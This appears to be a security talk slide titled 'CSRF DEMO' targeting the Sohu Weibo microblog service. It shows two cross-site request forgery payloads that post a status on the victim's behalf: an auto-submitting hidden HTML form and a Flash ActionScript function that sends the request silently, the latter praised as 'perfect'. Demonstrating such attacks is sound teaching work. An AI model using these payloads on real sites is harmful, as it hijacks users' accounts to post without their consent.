

CSRF DEMO
Sohu Weibo
<form action="http://t.xxx.com/article/updatetweet" method="post">
<input type="hidden" name="status" value="html_csrf_here." />
</form>
<script>document.forms[0].submit();</script>

JSON file download notification will appear after success, making CSRF close to exposure.

import flash.net.URLRequest;
function post(msg){
    var url = new URLRequest("http://t.xxx.com/article/updatetweet");
    var _v = new URLVariables();
    _v = "status="+msg; url.method = "POST"; url.data = _v;
    sendToURL(url);
}
post('flash_csrf_here'); // perfect :)